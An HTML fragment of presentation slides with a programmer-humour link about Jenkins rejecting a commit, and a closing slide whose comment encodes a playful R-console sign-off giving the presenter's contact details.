  <a href="https://thecodinglove.com/when-i-want-to-commit-and-jenkins-is-not-ok-with-it" target="_new"
     style="font-size: 80%;">
    the_coding_love -- When I want to commit and Jenkins is not OK with it
  </a>


</section></section>


<section data-transition="none">
<section class="titleslide slide level1" data-transition="none">
    <!-- https://carbon.now.sh/?bg=rgba%28255%2C255%2C255%2C1%29&t=nord&wt=none&l=r&ds=false&dsyoff=20px&dsblur=68px&wc=true&wa=true&pv=56px&ph=56px&ln=false&fl=1&fm=Hack&fs=18px&lh=161%25&si=false&es=2x&wm=false&code=%253E%2520q%28save%2520%253D%2520%27ask%27%29%250AProcess%2520R%2520finished%2520at%2520Nov%252011%252018%253A35%253A00%25202021%250A%250A%253E%2520follow%28%27%2540daroczig%27%29%250A%253E%2520visit%28%27https%253A%252F%252Fdaroczig.github.io%27%29%250A%253E%2520email%28%27daroczig%2540rapporter.net%27%29 -->
   
</section>

<section data-transition="none">
  <section class="titleslide slide level1" data-transition="none">
  
</section>

</section>


